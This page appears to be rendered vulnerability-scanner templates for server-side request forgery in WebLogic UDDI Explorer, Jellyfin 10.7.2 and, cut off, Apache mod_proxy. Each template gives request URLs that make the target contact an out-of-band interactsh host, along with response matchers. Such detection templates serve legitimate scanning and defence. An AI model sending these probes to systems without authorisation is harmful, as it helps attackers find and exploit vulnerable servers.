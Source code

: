 - {{BaseURL}}/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://{{interactsh-url}}

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Jellyfin 10.7.2 - SSRF

## Description

- Jellyfin is a free software media system. Versions 10.7.2 and below are vulnerable to unauthenticated Server-Side Request Forgery (SSRF) attacks via the imageUrl parameter.

- severity - medium
- tags - cve,cve2021,ssrf,jellyfin,oast

## Requests

- Method - GET

### URL

- {{BaseURL}}/Images/Remote?imageUrl=http://interact.sh/
- {{BaseURL}}/Items/RemoteSearch/Image?ImageUrl=http://interact.sh/&ProviderName=TheMovieDB

### Matchers

**Type - word**

- part - body
- words
  1. <h1> Interactsh Server </h1>

---

# Apache <= 2.4.48 - Mod_Proxy SSRF

## Description
